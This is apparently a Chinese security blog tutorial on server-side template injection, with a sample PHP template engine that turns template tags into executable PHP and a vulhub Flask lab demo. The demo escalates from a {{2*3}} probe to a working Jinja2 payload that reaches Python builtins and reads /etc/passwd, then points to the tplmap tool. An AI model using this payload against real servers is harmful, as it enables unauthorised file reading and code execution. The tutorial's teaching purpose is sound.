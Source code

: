 ```yaml
---

layout: post
title:  "SSTI模板注入"
categories: [网络安全CyberSecurity]
tags: [SSTI]

---
```


# 模板注入SSTI简介 

##  何为模板引擎(SST)  

    百度百科：模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，用于网站的模板引擎就会生成一个标准的HTML文档。  
    个人理解就是：一个html页面中没有实际内容，但是有变量，访问这个页面时需要将这个变量转换成预期的内容，这时候就需要用到模板引擎。php(或者其他脚本语言)代码通过访问模板引擎，模板引擎通过正则匹配产生一个新的缓存的html页面，从而实现php和html代码的分离。
从网上找了个小例子帮助我们更好的理解SST的作用，大波code来袭：  

### tpl.func.php

```
<?php
    
    //两个参数 1，html 模板； 2，需要修改的参数
    function display($tplFile, $tplVars = null)
    {
        $tplFilePath = rtrim(TPL_PATH,'/') . '/' . $tplFile;
        if (!file_exists($tplFilePath)) {
            exit('模版文件不存在');
        }
        $html = compile($tplFilePath);
        $cacheFileName = parsePath($tplFile);
        if (!check_cache_dir(TPL_CACHE)) {
            exit('缓存目录不可写');
        }
        if (!file_put_contents($cacheFileName, $html)) {
            exit('缓存文件写入失败');
        }
        if (is_array($tplVars)) {
            extract($tplVars);
            include $cacheFileName;
        }
    }
    function check_cache_dir($path)
    {
        if(!file_exists($path) || !is_dir($path)) {
            return mkdir($path,0755,true);
        }
        if(!is_writeable($path) || !is_readable($path)) {
            return chmod($path,0755);
        }
        return true;
    }
    function parsePath($tplFile)
    {
        $path = rtrim(TPL_CACHE,'/').'/'.str_replace('.','_',$tplFile).'.php';
        return $path;
    }
    function compile($path)
    {
        $keys = [
        '{if %%}'              =>    '<?php if(\1): ?>',
        '{else}'               =>    '<?php else : ?>',
        '{else if %%}'         =>    '<?php elseif(\1) : ?>',
        '{elseif %%}'          =>    '<?php elseif(\1) : ?>',
        '{/if}'                =>    '<?php endif;?>',
        '{$%%}'                =>    '<?=$\1;?>',
        '{foreach %%} '        =>    '<?php foreach(\1) :?>',
        '{/foreach}'           =>    '<?php endforeach;?>',
        '{for %%}'             =>    '<?php for(\1):?>',
        '{/for}'               =>    '<?php endfor;?>',
        '{while %%}'           =>    '<?php while(\1):?>',
        '{/while}'             =>    '<?php endwhile;?>',
        '{continue}'           =>    '<?php continue;?>',
        '{break}'              =>    '<?php break;?>',
        '{$%% = $%%}'          =>    '<?php $\1 = $\2;?>',
        '{$%%++}'              =>    '<?php $\1++;?>',
        '{$%%--}'              =>    '<?php $\1--;?>',
        '{comment}'            =>    '<?php /* ',
        '{/comment}'           =>    '*/?>',
        '{/*}'                 =>    '<?php /* ',
        '{*/}'                 =>    '*?>',
        '{section}'            =>    '<?php ',
        '{/section}'           =>    '?>',
        '{include %%}'         =>    '<?php include \1;?>',
        ];
    
        $file = file_get_contents($path);
        foreach ($keys as $key => $val) {
            $pattern = '#'. str_replace('%%', '(.+)', preg_quote($key,'#')) .'#imsU';
            $replace = $val;
            if (stripos($pattern,'include')) {
                $file = preg_replace_callback($pattern, 'parseInclude', $file);
            } 
            else{
                $file = preg_replace($pattern, $replace, $file);
            }
        }
        return $file;
    }
    
    function parseInclude($data)
    {
        $path = str_replace(array('\'','"'),'',$data[1]);
        //data[1]就是-------footer.html
        $cacheFileName = parsePath($path);
        display($path);
        return '<?php include "'.$cacheFileName.'";?>';
    }
```



### config.php 



```
<?php
    define('TPL_CACHE','./cache/');
    define('TPL_PATH','./views/');
#### test.php   
    <?php
    include 'config.php';
    include 'tpl.func.php';
    
    $title = '圈子社区';
    $content = '圈子社区！圈子社区！';
    
    display('moban.html',compact('title','content','footercontent'));
```



### moban.html 



```
    <html>
    <head>
    <title>{$title}</title>
    </head>
    <body>
        {$content}
    <br />
    <hr />
    </body>
    </html>
```



![img](https://img-blog.csdnimg.cn/img_convert/f2ceec951c3b0693e5014b9fd6fd14ce.png)

 

## 为什么要模板引擎  

　　如果在一个页面中php代码与html代码混合在一起，在很多时候都会造成不便，用模板引擎可以让php代码和html代码进行分离。

## 为什么SST是危险的？  

　　还是道哥的那句话，安全的本质是信任。SST信任了用户的输入，并且执行这些内容，包括执行本机函数。就像eval函数对传入的内容未加任何过滤一样。因此模板注入(SSTI)很容易导致远程代码执行（RCE）、信息泄露等漏洞。

# 实例演示  

本来准备找CTF题的，但是一直没找到，如果有师傅找到源码，望分享！  
这里就用vuhub的ssti测试一下  
访问页面是hello guest

 ![img](https://img-blog.csdnimg.cn/img_convert/a16ca475a6ea94cbfd4ca60f93cf302f.png)

 

因为看过app.py的源码，所以直接在后面加参数?name=123,显示hello 123

![img](https://img-blog.csdnimg.cn/img_convert/e89e4b2fa9f7ac68af427bf86895e2d6.png)

 

说明这里的name我们是被信任的（当它什么都没过滤），猜测存在ssti。  
接着再输入一个表达式{{2*3}}

![img](https://img-blog.csdnimg.cn/img_convert/802a4e8e6d4149c4f3332fb594410493.png)

 

显示hello 6,验证了存在ssti。   
payload  
python3 ：读取文件 

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read() }}{% endif %}{% endfor %}
```

 

![img](https://img-blog.csdnimg.cn/img_convert/89e86df96254e427b5ee79284ba7d7c3.png)

 

也可以用工具tplmap，挺好用  
https://github.com/epinna/tplmap  

 

# 如何防御SSTI？  


1.尽可能加载静态模板文件。

2.不要允许用户控制此类文件或其内容的路径。



# 参考

[https://xi4or0uji.github.io/2019/01/17/2019-1-15-flask%E4%B9%8Bssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/](https://xi4or0uji.github.io/2019/01/17/2019-1-15-flask%E4%B9%8Bssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/ )  
[https://blog.csdn.net/qq_40657585/article/details/83657220](https://blog.csdn.net/qq_40657585/article/details/83657220 ) 